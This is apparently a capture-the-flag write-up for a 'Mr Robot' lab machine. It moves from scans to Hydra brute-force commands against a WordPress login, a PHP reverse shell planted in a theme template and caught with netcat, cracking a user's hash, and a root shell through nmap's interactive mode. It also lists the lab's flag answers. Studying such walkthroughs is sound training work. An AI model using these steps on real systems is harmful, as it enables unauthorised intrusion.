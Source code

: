 ### nmap
```bash
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
```
### key-1
Robots.txt
`<IP>/robots.txt`
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Upon navigating to `http://10.10.225.163/key-1-of-3.txt`

Flag: 073403c8a58a1f80d943455fb30724b9

### Download `.dic` file
`http://<IP>/fsocity.dic`

### Directory Busting

```bash
└─$ gobuster dir -u http://10.10.225.163 -w /usr/share/wordlists/dirb/common.txt

/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.225.163/0/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.225.163/admin/]

------------------------------SNIP----------------------------------

/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.225.163/wp-admin/]
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.225.163/wp-content/]
/wp-config            (Status: 200) [Size: 0]
/wp-cron              (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.225.163/wp-includes/]
/wp-load              (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-login             (Status: 200) [Size: 2613]
/wp-mail              (Status: 500) [Size: 3064]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.225.163/wp-login.php?action=register]
/xmlrpc               (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
```

Navigate to `wp-login` and intercept the request to the Burp suite.
Run `Hydra` against the `fsocity.dic` file to find valid users.
```bash
└─$ hydra -L fsocity.dic -p test <IP> http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"

login: Elliot   password: test
```
Do the same now and replace the `.doc` file in the password parameter.
```bash
 hydra -l Elliot -P fsocity.dic <IP> http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"

 login: Elliot   password: ER28-0652
```
### Login to WP-login

Copy and save the php reverse shell and paste it into the Theme editor's 404 template.

Set up, NetCat listener.

Navigate to the 404 page and get the reverse shell.
`http://<IP>/wp-admin/404.php`

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
$ whoami
daemon
```
In Robot's user got a hash.
```bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
Hash cracked successfully: `abcdefghijklmnopqrstuvwxyz`

Switch to the robot using `su -l robot` 

Key2: 822c73956184f694993bede3eb39f959

### Root

Found that `NMAP` is running as root.

Let's interact with nmap and get the shell.

```bash
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd /root
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
Key3: 04787ddef27c3dee1ee161b21670b4e4
